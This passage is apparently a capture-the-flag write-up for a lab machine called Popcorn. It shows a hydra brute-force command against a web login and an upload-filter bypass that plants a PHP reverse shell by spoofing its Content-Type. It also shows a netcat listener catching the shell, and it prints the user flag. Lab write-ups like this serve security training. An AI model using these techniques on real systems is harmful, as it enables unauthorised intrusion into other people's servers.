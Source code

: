 username=admin&password=admin
```

So we can run bruteforce attack with `hydra`:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt "http-form-post://10.10.10.6/torrent/login.php:username=^USER^&password=^PASS^:Invalid login" -v -V
```

We get no luck.

We simply register.

We try to upload a torrent file:

![10_test_upload_again_torrent](https://user-images.githubusercontent.com/42389836/156936604-44161082-4f75-4aba-af39-bdcdb148fd29.png)

We try to upload a simple PHP reverse shell but it failed.

After some try, we can assume that the only check is made on `Content-Type`.

So, we upload a basic PHP reverse shell (Pentestmonkey) and thanks to Burpsuite we change Content-Type to: `image/png`.

Now, we can browse to `/torrent/upload` and gain our shell:

```
root@kaligra:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.6] 42961
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 18:01:59 up 22:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$
$
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# User-flag

We can easily grab user flag:

```
$ cd /home/
$ ls
george
$ cd george
$ ls
torrenthoster.zip
user.txt
$ cat user.txt
556b4aacd699043203716bea55e0b3b1
$
```

# Privesc

We upgrade our shell:

```